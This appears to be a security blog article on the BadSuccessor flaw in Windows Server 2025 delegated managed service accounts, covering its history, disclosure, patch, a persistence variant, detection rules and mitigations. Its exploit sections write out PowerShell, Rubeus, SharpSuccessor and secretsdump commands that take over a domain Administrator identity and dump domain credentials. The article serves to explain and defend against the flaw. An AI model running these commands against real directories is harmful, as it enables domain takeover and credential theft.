


<audio controls preload="metadata" style="width: 100%; margin: 1rem 0;">
  <source src="assets/BadSuccessor_-_Snoop_Edition.m4a" type="audio/mp4">
  Your browser does not support the audio element.
</audio>


In May 2025, a single blog post from Akamai's security research team set the Active Directory community on fire. Researcher **Yuval Gordon** had discovered a design flaw in one of Windows Server 2025's flagship security features—the **delegated Managed Service Account (dMSA)**—that allowed any authenticated user with modest directory permissions to achieve **complete domain compromise** in a matter of minutes.

The technique, dubbed **BadSuccessor**, exploited a logic failure in how the Kerberos Key Distribution Center (KDC) processed dMSA "migration" relationships. By creating a rogue dMSA object and pointing it at a Domain Admin account, an attacker could trick the KDC into handing over the target's cryptographic keys—no password cracking, no brute force, no lateral movement required.

What followed was one of 2025's most contentious vulnerability disclosures: Microsoft initially classified the flaw as "moderate" and declined to issue an immediate patch, while Akamai's telemetry showed that over **91% of enterprise environments** were vulnerable out of the box. The security community erupted.

This article is the definitive deep dive. We will trace the full history of Windows service accounts, dissect the exact Kerberos mechanics of the exploit, examine every public proof-of-concept tool, analyze Microsoft's controversial response and eventual patch, explore the post-patch **Ouroboros** persistence technique, and provide actionable SIEM detection rules and enterprise mitigations.

---

## 1. A History of Windows Service Accounts

To understand why BadSuccessor matters, we must first understand the decades-long struggle to secure service account credentials in Windows environments.



### The Dark Ages: Standard User Accounts (Pre-2008)
Before managed service accounts existed, organizations ran Windows services under standard Active Directory user accounts. Administrators would create a user like `svc_sqlserver`, set a password, configure the service to "Log on as" that account, and then promptly forget about it for years.

The problems were legion:

- **Password expiration:** If the password expired, the service would fail silently at 3:00 AM on a Saturday.
- **Password reuse:** The same service account password was often shared across dozens of servers.
- **Credential harvesting:** Tools like Mimikatz could extract these plaintext passwords from memory.
- **No accountability:** Service accounts were shared among teams, making audit trails meaningless.

### Standalone Managed Service Accounts — sMSA (Windows Server 2008 R2)
Microsoft's first attempt at solving this problem came with **standalone Managed Service Accounts (sMSA)** in Windows Server 2008 R2. These accounts featured:

- **Automatic password rotation:** The OS rotated the 240-character password every 30 days.
- **No human management:** Administrators never needed to know the password.
- **SPNs management:** The system could automatically manage Kerberos Service Principal Names.

However, sMSAs had a critical limitation: they were bound to a **single server**. In an era of load-balanced web farms and clustered databases, this was a non-starter for many enterprise workloads.

### Group Managed Service Accounts — gMSA (Windows Server 2012)
The **Group Managed Service Account (gMSA)** extended the sMSA model to support multiple servers. Using the **Key Distribution Service (KDS)**, gMSAs allowed a group of authorized hosts to retrieve the managed password from Active Directory.

This was a massive improvement, but it introduced a new attack surface: any host authorized to retrieve the gMSA password could read it from the directory. If an attacker compromised one of those hosts, they could extract the gMSA password and impersonate the service across every server in the group.

### The Kerberoasting Problem
Both sMSAs and gMSAs were still vulnerable to **Kerberoasting**—an attack where any authenticated domain user can request a Kerberos service ticket (TGS) for any account with an SPN, then crack the ticket offline to recover the account's password hash. This technique, popularized by Tim Medin in 2014 and weaponized in tools like Rubeus and Impacket, became one of the most common privilege escalation paths in Active Directory.

Microsoft needed a fundamentally new approach.

---

## 2. Windows Server 2025 and the Birth of dMSA

With Windows Server 2025, Microsoft introduced the **delegated Managed Service Account (dMSA)** as a next-generation solution that addressed the architectural weaknesses of its predecessors.

### What Makes dMSA Different?

The key innovation of the dMSA was to eliminate the **password retrieval primitive** entirely. Unlike gMSAs, where authorized hosts could directly read the managed password from the directory, dMSAs used a **KDC-mediated authorization flow**:

1. The dMSA authenticates to the KDC using its own machine-bound credentials.
2. The KDC verifies that the dMSA is authorized to act on behalf of the superseded account.
3. The KDC issues a Kerberos ticket with the appropriate privileges—without ever exposing the password to the requesting host.

This design was intended to prevent credential harvesting attacks like Kerberoasting by ensuring that no entity other than the KDC ever handled the raw cryptographic keys.

### The Migration Mechanism

A crucial feature of the dMSA was its ability to **seamlessly migrate** from a legacy service account. Organizations often have hundreds of legacy service accounts (`svc_backup`, `svc_sql`, `svc_web`) that cannot be replaced overnight. The dMSA migration process was designed to allow a smooth, zero-downtime transition:

1. An administrator creates a new dMSA and links it to the legacy account.
2. The KDC begins issuing tickets for the dMSA that carry the legacy account's identity.
3. Once the migration is complete, the legacy account can be safely disabled.

This relationship is defined by two critical LDAP attributes on the dMSA object:

| Attribute | Purpose |
|---|---|
| `msDS-ManagedAccountPrecededByLink` | The Distinguished Name (DN) of the legacy account being superseded. |
| `msDS-DelegatedMSAState` | An integer flag tracking the migration lifecycle. |

The possible values for `msDS-DelegatedMSAState` are:

| Value | State | Description |
|---|---|---|
| `0` | Not Started | Default state, no migration in progress. |
| `1` | In Progress | Migration is actively underway; both accounts may service requests. |
| `2` | Completed | Migration is finished; the dMSA fully supersedes the legacy account. |
| `3` | Standalone | The dMSA was created independently, without a migration predecessor. |

**The design assumption was that only authorized administrators would ever modify these attributes.** That assumption turned out to be catastrophically wrong.

---

## 3. The Discovery: Akamai and Yuval Gordon

### The Research

In early 2025, Akamai security researcher **Yuval Gordon** began a deep architectural analysis of the new dMSA features in Windows Server 2025. Gordon's research was not focused on implementation bugs—buffer overflows, use-after-frees, or memory corruption. Instead, he was examining the **logical authorization model** of the KDC when processing dMSA migration requests.

What he found was a fundamental design flaw: the KDC did not validate whether the entity creating the dMSA had any authority over the target predecessor account.

### The "91% Statistic"

Akamai's telemetry analysis revealed a staggering finding: in **91% of tested enterprise Active Directory environments**, at least one non-administrative user possessed `CreateChild` permissions over at least one Organizational Unit (OU). This is an extremely common misconfiguration that arises naturally from years of AD delegation, help desk permissions, and organizational restructuring.

This meant that, in the vast majority of real-world environments, any authenticated user could exploit BadSuccessor without requiring any prior privilege escalation.

### Public Disclosure: May 21, 2025

On **May 21, 2025**, Akamai published their findings in a detailed blog post titled *"Abusing dMSA for Privilege Escalation in Active Directory."* The post included:

- A full technical explanation of the vulnerability
- The `Get-BadSuccessorOUPermissions.ps1` PowerShell script for identifying vulnerable OUs
- A responsible disclosure timeline showing that Microsoft had been notified weeks earlier
- Akamai's assessment that the vulnerability warranted immediate action

The disclosure was made **without a patch available**, which ignited a fierce debate in the security community.

---

## 4. Technical Deep Dive: How BadSuccessor Works



The BadSuccessor attack is elegant in its simplicity. It requires no exploitation of memory corruption, no race conditions, and no cryptographic weaknesses. It is a pure **logic flaw** in the KDC's authorization boundary checks.

### Prerequisites

The attacker needs only **one** thing: the ability to create a child object in any OU in the domain. This is typically granted via:

- `CreateChild` permissions (the most common)
- `GenericWrite` permissions on an OU
- `GenericAll` permissions on an OU

These permissions are routinely delegated to help desk staff, IT administrators, application deployment teams, and even automated provisioning systems.

### Step-by-Step Exploit Mechanics

#### Step 1: Reconnaissance
The attacker maps the Active Directory ACLs using tools like **BloodHound CE** or **PowerView** to identify OUs where they have `CreateChild` permissions.

```powershell
# Using Akamai's scanner to identify vulnerable OUs
Import-Module .\Get-BadSuccessorOUPermissions.ps1
Get-BadSuccessorOUPermissions
```

#### Step 2: Create a Rogue dMSA
The attacker creates a new dMSA object inside the vulnerable OU. Because they created the object, they implicitly receive `GenericAll` (full control) over it—a standard Active Directory behavior.

```powershell
# Create a malicious dMSA using PowerShell
New-ADServiceAccount -Name "evil-dmsa" `
  -Path "OU=ServiceAccounts,DC=corp,DC=local" `
  -DNSHostName "evil-dmsa.corp.local" `
  -ManagedPasswordIntervalInDays 1
```

#### Step 3: Manipulate the Migration Attributes
This is the critical step. The attacker modifies the two key attributes on their rogue dMSA to establish a fake "migration" relationship with a high-value target:

```powershell
# Point the dMSA at the Domain Admin account
Set-ADServiceAccount "evil-dmsa" -Replace @{
  'msDS-ManagedAccountPrecededByLink' = 'CN=Administrator,CN=Users,DC=corp,DC=local'
  'msDS-DelegatedMSAState' = 2   # Completed migration
}
```

By setting `msDS-DelegatedMSAState` to `2` (Completed), the attacker tells the KDC that this migration is finalized and the dMSA should now fully inherit the target's identity.

#### Step 4: Request a Kerberos TGT
The attacker requests a Ticket Granting Ticket (TGT) for the rogue dMSA:

```powershell
# Using Rubeus to request a TGT for the malicious dMSA
.\Rubeus.exe asktgt /user:evil-dmsa$ /aes256:<key> /nowrap
```

#### Step 5: The KDC Logic Failure
When the KDC processes the TGT request, it performs the following sequence:

1. **Reads the dMSA object** from the directory.
2. **Checks `msDS-DelegatedMSAState`** — sees value `2` (Completed).
3. **Reads `msDS-ManagedAccountPrecededByLink`** — resolves to `CN=Administrator,CN=Users,DC=corp,DC=local`.
4. **Fetches the predecessor's security context** — retrieves the Administrator's SIDs, group memberships, and cryptographic keys.
5. **Builds the PAC** — the Privilege Attribute Certificate in the returned TGT now contains the Administrator's full security identity.

!!! danger "The Critical Flaw"
    At **no point** does the KDC verify that the entity which created the dMSA (or modified its attributes) had any administrative authority over the target Administrator account. The KDC implicitly trusts the `msDS-ManagedAccountPrecededByLink` attribute as a statement of fact, not a request requiring authorization.

#### Step 6: Full Domain Compromise
The attacker now holds a TGT that carries the Administrator's PAC. They can:

- **Pass-the-Ticket (PtT):** Use the TGT directly to access any resource as Administrator.
- **Extract the NTLM hash:** Retrieve the RC4 key from the PAC for Pass-the-Hash attacks.
- **DCSync:** Replicate the entire Active Directory database, including all password hashes.
- **Golden Ticket:** Forge tickets for any account in the domain indefinitely.

### Visualizing the Attack Flow

```mermaid
sequenceDiagram
    participant A as Attacker<br/>(Low-Priv User)
    participant AD as Active Directory<br/>(LDAP)
    participant KDC as Key Distribution<br/>Center (DC)

    Note over A,AD: Phase 1 — Setup
    A->>AD: 1. Create 'evil-dmsa$' in OU<br/>(CreateChild permission)
    AD-->>A: Object created (implicit GenericAll)
    A->>AD: 2. Set msDS-ManagedAccountPrecededByLink<br/>= CN=Administrator,CN=Users...
    A->>AD: 3. Set msDS-DelegatedMSAState = 2<br/>(Migration Completed)

    Note over A,KDC: Phase 2 — Exploit
    A->>KDC: 4. AS-REQ: Request TGT for evil-dmsa$

    rect rgb(80, 0, 0)
    Note over KDC: LOGIC FLAW TRIGGERED<br/>KDC reads PrecededByLink → Administrator<br/>Fetches Administrator's SIDs + Keys<br/>NO authorization check performed
    end

    KDC-->>A: 5. AS-REP: TGT with Administrator's<br/>PAC (SIDs, groups, keys)

    Note over A,AD: Phase 3 — Domain Compromise
    A->>AD: 6. DCSync / Pass-the-Hash /<br/>Golden Ticket as Administrator
    AD-->>A: Full Domain Access
```



---

## 5. The Vulnerability Profile

!!! danger "CVE-2025-53779 — BadSuccessor"

    | Field | Detail |
    |---|---|
    | **CVE ID** | CVE-2025-53779 |
    | **Name** | BadSuccessor |
    | **CVSS Score** | 7.2 (High) |
    | **CWE** | CWE-23: Relative Path Traversal |
    | **Vulnerability Type** | Elevation of Privilege |
    | **Attack Vector** | Network (Adjacent) |
    | **Attack Complexity** | Low |
    | **Privileges Required** | Low (any authenticated user with CreateChild) |
    | **User Interaction** | None |
    | **Affected Component** | Windows Kerberos (KDC) |
    | **Affected Systems** | All Windows Server 2025 Domain Controllers |
    | **Fixed Build** | 10.0.26100.4946 (KB5063878) |
    | **Discovered By** | Yuval Gordon, Akamai Security Research |
    | **Disclosed** | May 21, 2025 |
    | **Patched** | August 12, 2025 (Patch Tuesday) |

---

## 6. Public Proof-of-Concept Tools & Weaponization

Within days of the public disclosure, the security community rapidly developed a suite of offensive and defensive tools around BadSuccessor. Here is a comprehensive catalog:

### Offensive Tools

| Tool | Language | Author | Description |
|---|---|---|---|
| **SharpSuccessor** | C# | Logan Goins | The first fully weaponized PoC. Automates dMSA creation, attribute manipulation, and integrates with Rubeus for TGT extraction. |
| **BadTakeover-BOF** | C | SpecterOps | A Beacon Object File (BOF) rewrite for use in Cobalt Strike and other C2 frameworks. Allows in-memory execution without touching disk. |
| **NetExec (badsuccessor module)** | Python | Community | The popular post-exploitation framework added a `badsuccessor` module for one-command exploitation from Linux attack hosts. |
| **bloodyAD** | Python | CravateRouge | Updated to support dMSA attribute manipulation via LDAP, enabling BadSuccessor exploitation through its existing AD manipulation framework. |
| **Impacket (addcomputer.py fork)** | Python | Community | Modified Impacket scripts to create dMSA objects and set the required attributes over LDAP. |

### Defensive / Detection Tools

| Tool | Type | Author | Description |
|---|---|---|---|
| **Get-BadSuccessorOUPermissions.ps1** | PowerShell | Akamai | The original scanner released alongside the disclosure. Identifies all OUs and identities with dMSA creation permissions. |
| **BadSuccessor-dMSA-Scanner** | PowerShell | Community (GitHub) | Extended scanner that detects nested group privileges and complex delegation paths that could enable the attack. |
| **BloodHound CE** | Web App | SpecterOps | Updated its graph analysis engine to map `CreateChild` → dMSA → Domain Admin attack paths. |
| **Purple Knight** | Assessment | Semperis | Added BadSuccessor as an Indicator of Exposure (IOE) in their AD security assessment tool. |

### Example: SharpSuccessor Usage

```bash
# Step 1: Create the malicious dMSA pointing at Administrator
SharpSuccessor.exe -dc dc01.corp.local -target "CN=Administrator,CN=Users,DC=corp,DC=local" -ou "OU=ServiceAccounts,DC=corp,DC=local"

# Step 2: Request a TGT for the new dMSA using Rubeus
Rubeus.exe asktgt /user:evil-dmsa$ /certificate:<pfx> /password:<pass> /nowrap /ptt

# Step 3: DCSync the domain
secretsdump.py -just-dc corp.local/evil-dmsa\$@dc01.corp.local -k -no-pass
```

---

## 7. Microsoft's Controversial Response

The disclosure of BadSuccessor ignited one of 2025's most heated debates in the vulnerability management community.

### The Initial Assessment: "Moderate Severity"

When Akamai reported the vulnerability to Microsoft prior to public disclosure, Microsoft's Security Response Center (MSRC) acknowledged the bug but made two controversial decisions:

1. **Classified it as "moderate" severity** — despite its ability to achieve full domain compromise.
2. **Declined to issue an out-of-band emergency patch** — stating it would be addressed in a future scheduled update.

Microsoft's reasoning reportedly centered on the fact that the attack required:

- An authenticated domain account (not unauthenticated remote exploitation)
- `CreateChild` permissions on at least one OU (not a default permission for standard users)
- A Windows Server 2025 DC to be present in the environment (limiting the attack surface to early adopters)

### The Community Backlash

The security community strongly disagreed with Microsoft's assessment:

- **Akamai** pointed out that `CreateChild` permissions are present in 91% of environments, making the "requires specific permissions" argument practically meaningless.
- **Semperis** published guidance stating that organizations should treat the vulnerability as critical regardless of Microsoft's rating.
- **SpecterOps** noted that the attack was simpler and more reliable than Kerberoasting or AS-REP Roasting—techniques already widely used by ransomware operators.
- **SecurityWeek** published an editorial questioning Microsoft's severity classification methodology for AD vulnerabilities.
- **Brian Krebs** (KrebsOnSecurity) covered the controversy, noting the growing disconnect between vendor severity ratings and real-world exploitability.

### The Responsible Disclosure Debate

Akamai's decision to publish full technical details without a patch available was itself controversial. Defenders argued they needed the information to build detections and mitigations. Critics argued that the detailed disclosure gave attackers a roadmap before organizations could protect themselves.

---

## 8. The Patch: August 2025 Patch Tuesday

On **August 12, 2025**, Microsoft released the official fix for CVE-2025-53779 as part of the August Patch Tuesday security updates.

### What the Patch Changed

The patch fundamentally altered the KDC's authorization logic when processing dMSA migration relationships:

**Before the patch:**

1. KDC reads `msDS-ManagedAccountPrecededByLink` on the dMSA.
2. KDC fetches the predecessor account's security context.
3. KDC issues a ticket with the predecessor's PAC.
4. ❌ **No verification** that the dMSA creator had authority over the predecessor.

**After the patch:**

1. KDC reads `msDS-ManagedAccountPrecededByLink` on the dMSA.
2. ✅ **KDC verifies** that the principal which established the migration link possesses `GenericWrite` or `WriteProperty` over the predecessor account.
3. If authorization fails → Access Denied. The request is dropped.
4. If authorization succeeds → The ticket is issued normally.

### Affected Builds and KBs

| Operating System | KB Number | Fixed Build |
|---|---|---|
| Windows Server 2025 / Windows 11 24H2 | KB5063878 | 26100.4946 |
| Windows 11 22H2/23H2 | KB5063875 | 22621.5768 / 22631.5768 |
| Windows Server 2022 | KB5063880 | 20348.4052 |
| Windows Server 2019 / Windows 10 1809 | KB5063877 | 17763.7678 |

!!! warning "Important"
    The patch must be applied to **all Domain Controllers** in the environment. A single unpatched DC is sufficient for exploitation, as attackers can direct their Kerberos requests to the vulnerable DC specifically.

---

## 9. Beyond the Patch: The Ouroboros Technique

In October 2025, researchers at **Huntress** published a devastating follow-up finding: even on **fully patched** Windows Server 2025 Domain Controllers, the dMSA mechanism could still be weaponized for persistent credential extraction through a technique they called **Ouroboros**.

### How Ouroboros Works

The Ouroboros technique creates a **self-sustaining persistence loop** that survives the August 2025 patch, password rotations, and even the removal of the original attacker's account.

The key insight is that the patch added authorization checks for the *initial* migration setup, but the dMSA's ongoing authentication flow still relies on its own attributes. An attacker who successfully exploits BadSuccessor (pre-patch) or who has legitimate write access to a dMSA can configure it to **authorize itself**:

```mermaid
graph LR
    A["evil-dmsa$ authenticates<br/>using Shadow Credential"] --> B["KDC checks<br/>msDS-GroupMSAMembership"]
    B --> C["Attribute contains<br/>evil-dmsa$'s own SID"]
    C --> D["Authorization granted:<br/>evil-dmsa$ authorized to<br/>access predecessor's keys"]
    D --> E["KDC issues ticket with<br/>Administrator's PAC"]
    E --> A
    style A fill:#2d1b69
    style D fill:#4a1942
    style E fill:#6b1d1d
```



#### The Setup

1. **Plant a Shadow Credential:** The attacker writes a certificate to the dMSA's `msDS-KeyCredentialLink` attribute, allowing it to authenticate using certificate-based PKINIT.
2. **Self-authorize:** The attacker writes the dMSA's own SID into the `msDS-GroupMSAMembership` attribute.
3. **Close the loop:** The dMSA can now authenticate as itself (via the Shadow Credential) and authorize itself (via the self-referencing membership), creating a closed loop that requires no external account.

#### Why It Survives Patching

The August 2025 patch validates authorization at **migration setup time** (when `msDS-ManagedAccountPrecededByLink` is first written). But the Ouroboros technique manipulates attributes that are checked during **ongoing authentication**, not during initial configuration. The patch does not retroactively validate existing dMSA objects.

#### Impact

- The dMSA continuously extracts the target's NT hash on every authentication cycle.
- The persistence survives password rotations on the target account.
- The original attacker's account can be deleted, and the dMSA continues to function autonomously.
- Remediation requires identifying and manually deleting the malicious dMSA—which can be extremely difficult in large environments with thousands of service accounts.

!!! warning "Post-Patch Risk"
    Ouroboros demonstrates that patching alone is insufficient. Organizations must **actively audit all existing dMSA objects** for malicious configurations, even after applying the August 2025 updates.

---

## 10. Detection & Monitoring

Detecting BadSuccessor and its variants requires monitoring at multiple layers of the Active Directory infrastructure.

### Critical Event IDs

| Event ID | Source | What It Detects | Priority |
|---|---|---|---|
| **5137** | Directory Service Changes | A new directory object was created. Filter for `objectClass = msDS-DelegatedManagedServiceAccount`. | 🔴 Critical |
| **5136** | Directory Service Changes | A directory object was modified. Alert on changes to `msDS-ManagedAccountPrecededByLink`, `msDS-DelegatedMSAState`, `msDS-GroupMSAMembership`, or `msDS-KeyCredentialLink`. | 🔴 Critical |
| **4662** | Directory Service Access | An operation was performed on an AD object. Monitor for suspicious access patterns to dMSA objects or their containers. | 🟡 High |
| **2946** | Kerberos (KDC) | dMSA authentication event. Alert on dMSA authentications that resolve to Tier 0 accounts. | 🔴 Critical |
| **4768** | Kerberos (KDC) | TGT request. Correlate with 5137/5136 events to detect exploitation chains. | 🟡 High |

### SIEM Detection Rules

#### Rule 1: dMSA Object Creation (Event ID 5137)

```yaml
# Splunk SPL
index=wineventlog sourcetype=WinEventLog:Security EventCode=5137
| where ObjectClass="msDS-DelegatedManagedServiceAccount"
| eval alert_severity="CRITICAL"
| table _time, SubjectUserName, SubjectDomainName, ObjectDN, ObjectClass
| sort -_time
```

#### Rule 2: Suspicious Attribute Modification (Event ID 5136)

```yaml
# Splunk SPL
index=wineventlog sourcetype=WinEventLog:Security EventCode=5136
| where AttributeLDAPDisplayName IN (
    "msDS-ManagedAccountPrecededByLink",
    "msDS-DelegatedMSAState",
    "msDS-GroupMSAMembership",
    "msDS-KeyCredentialLink"
  )
| eval alert_severity=case(
    AttributeLDAPDisplayName="msDS-ManagedAccountPrecededByLink", "CRITICAL",
    AttributeLDAPDisplayName="msDS-GroupMSAMembership", "CRITICAL",
    1=1, "HIGH"
  )
| table _time, SubjectUserName, ObjectDN, AttributeLDAPDisplayName, AttributeValue
```

#### Rule 3: Correlation — Creation + Modification Chain

```yaml
# Sigma Rule (YAML)
title: BadSuccessor Attack Chain Detected
status: experimental
description: Detects the creation of a dMSA followed by modification of migration attributes
logsource:
  product: windows
  service: security
detection:
  create_event:
    EventID: 5137
    ObjectClass: 'msDS-DelegatedManagedServiceAccount'
  modify_event:
    EventID: 5136
    AttributeLDAPDisplayName:
      - 'msDS-ManagedAccountPrecededByLink'
      - 'msDS-DelegatedMSAState'
  timeframe: 5m
  condition: create_event | near modify_event
level: critical
```

### Audit Policy Prerequisites

For these detections to work, the following Group Policy audit settings **must** be enabled on all Domain Controllers:

```
Computer Configuration → Policies → Windows Settings → Security Settings → Advanced Audit Policy Configuration:
  → DS Access:
    ✅ Audit Directory Service Changes (Success, Failure)
    ✅ Audit Directory Service Access (Success, Failure)
  → Account Logon:
    ✅ Audit Kerberos Authentication Service (Success, Failure)
```

---

## 11. Enterprise Mitigations

Patching is necessary but **not sufficient**. A defense-in-depth strategy is required.

### Mitigation 1: Audit and Remediate OU Permissions

The single most impactful mitigation is eliminating unnecessary `CreateChild` permissions on OUs.

```powershell
# Akamai's scanner
Import-Module .\Get-BadSuccessorOUPermissions.ps1
Get-BadSuccessorOUPermissions | Export-Csv -Path "vulnerable_ous.csv" -NoTypeInformation
```

**Remediation steps:**

1. Export all OU ACLs across the domain.
2. Identify all non-Tier 0 principals with `CreateChild`, `GenericWrite`, or `GenericAll` permissions.
3. Remove or replace delegated permissions with narrowly scoped alternatives (e.g., delegate creation of specific object types only, not all child objects).
4. Document approved delegation patterns and enforce them through automation.

### Mitigation 2: Restrict dMSA Creation

If your organization does not actively use dMSAs, block their creation entirely:

```powershell
# Block dMSA creation at the schema level by modifying the default SD
# WARNING: Test in a lab environment first
$schemaPath = "CN=ms-DS-Delegated-Managed-Service-Account,CN=Schema,CN=Configuration,DC=corp,DC=local"
# Set restrictive ACL that only allows Domain Admins to create dMSA objects
```

### Mitigation 3: Implement Tiered Administration

A robust tiered administration model (as recommended by Microsoft's PAW/ESAE architecture) limits the blast radius of any single compromise:

| Tier | Assets | Who Can Administer |
|---|---|---|
| **Tier 0** | Domain Controllers, `krbtgt`, Domain Admins, Enterprise Admins, dMSAs linked to Tier 0 | Tier 0 admins only (PAW workstations) |
| **Tier 1** | Member servers, application servers, service accounts | Tier 1 admins |
| **Tier 2** | Workstations, user accounts | Help desk, Tier 2 admins |

Lower-tier accounts must **never** possess Write, Modify, or Create rights over Tier 0 objects or the OUs that contain them.

### Mitigation 4: Continuous Monitoring

Deploy the SIEM rules from Section 10 and establish a runbook for responding to dMSA-related alerts:

1. **Immediate:** Disable the suspect dMSA and isolate the source host.
2. **Investigate:** Determine what account the `msDS-ManagedAccountPrecededByLink` attribute points to.
3. **Contain:** If it points to a Tier 0 account, initiate a full Tier 0 compromise response (reset `krbtgt` twice, rotate all Tier 0 credentials).
4. **Remediate:** Remove the malicious dMSA object and audit the OU permissions that allowed its creation.

### Mitigation 5: Retroactive dMSA Audit

Even on patched systems, existing dMSA objects configured during the vulnerability window may contain malicious configurations (see: Ouroboros). Run a comprehensive audit:

```powershell
# Find all dMSA objects and inspect their predecessor links
Get-ADServiceAccount -Filter {ObjectClass -eq "msDS-DelegatedManagedServiceAccount"} -Properties `
  msDS-ManagedAccountPrecededByLink, `
  msDS-DelegatedMSAState, `
  msDS-GroupMSAMembership, `
  msDS-KeyCredentialLink, `
  whenCreated, `
  whenChanged |
  Select-Object Name, `
    @{N='Predecessor';E={$_.'msDS-ManagedAccountPrecededByLink'}}, `
    @{N='State';E={$_.'msDS-DelegatedMSAState'}}, `
    @{N='HasShadowCred';E={$null -ne $_.'msDS-KeyCredentialLink'}}, `
    whenCreated, whenChanged |
  Format-Table -AutoSize
```

!!! tip "Red Flag Indicators"
    - A dMSA whose `msDS-ManagedAccountPrecededByLink` points to a Domain Admin, Enterprise Admin, or `krbtgt`.
    - A dMSA with `msDS-GroupMSAMembership` containing its own SID (Ouroboros indicator).
    - A dMSA with `msDS-KeyCredentialLink` populated (Shadow Credential indicator).
    - A dMSA created by a non-administrative user account.
    - A dMSA created recently in an OU that historically only contained user or computer objects.

---

## 12. Lessons Learned

BadSuccessor is not just a single vulnerability—it is a case study in systemic failures across the entire lifecycle of enterprise security.

### Lesson 1: New Features Create New Attack Surfaces
Every new feature added to Active Directory introduces new objects, attributes, and trust relationships that attackers will eventually abuse. The dMSA was designed to *improve* security, but its migration mechanism introduced a trust relationship that was more dangerous than the problem it was solving.

**Takeaway:** Security teams must perform a threat model assessment on every new AD feature before enabling it in production.

### Lesson 2: Vendor Severity Ratings Are Not Gospel
Microsoft rated BadSuccessor as "moderate" with a CVSS of 7.2. In practice, the vulnerability allowed complete domain compromise from a low-privileged account in 91% of environments. The disconnect between the vendor's rating and the real-world impact highlights the importance of independent risk assessment.

